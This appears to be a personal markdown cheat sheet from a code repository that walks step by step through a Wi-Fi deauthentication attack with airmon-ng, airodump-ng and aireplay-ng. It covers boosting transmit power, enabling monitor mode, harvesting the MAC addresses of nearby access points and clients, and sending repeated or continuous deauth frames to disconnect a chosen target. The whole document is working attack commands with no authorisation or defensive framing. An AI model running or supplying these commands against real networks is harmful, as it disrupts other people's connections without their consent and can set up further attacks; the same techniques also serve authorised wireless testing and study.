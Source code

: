 # Deauthentication Attack
### Set router to max power
```
sudo iwconfig wlan1mon txpower 30
```
### Check / kill:
If things are weird
```
sudo airmon-ng check kill
```
### wlan1 Monitor mode:
```
sudo airmon-ng start wlan1
```
Interface now is appended `mon` e.g `wlan1mon`
### Test for packet injection
Once it's in monitor mode, run a test:
```
sudo aireplay-ng --test wlan1mon
```
Should see `Injection is working!`
### Gather MAC addresses
Use this command to see live network traffic, enabling you to see all the devices on the network and their MAC addresses. if you run this live you'll inevitably see the clients disconnect and reconnect when you deauth. Remember to add `--band a` for 5GHz: 
```
sudo airodump-ng wlan1mon --band abg -w dump
```
The top half are going to be the available WIFI networks / Access Points (APs). You have to output to file because the terminal is too small to display all of them. The bottom half are going to be clients/`STATIONS` and the `Probes` should tell you what they're connected to.

Once you've found your target, listen to it live with:
```
sudo airodump-ng wlan1mon --bssid XX:XX:XX:XX:XX:XX --band abg
```
OR (try both - router likely broadcasts multiple BSSIDs, once for each GHz or if it multiplate bands(?))
```
sudo airodump-ng wlan1mon --essid "NetworkName" --band abg
```
The actual deauth: where `5` is the number of deauths, `0` would be to send them continously.
```
sudo aireplay-ng -0 5 -a ACCESSPOINT-BSSID -c CLIENT-BSSID wlan1mon
```

## NOTE
You have to be on the same channel as the AP you're deauthing, change it with:
```
sudo iwconfig wlan1mon channel 149
```

---
### For list of attacks:
We want `0` here
```
aireplay-ng
```
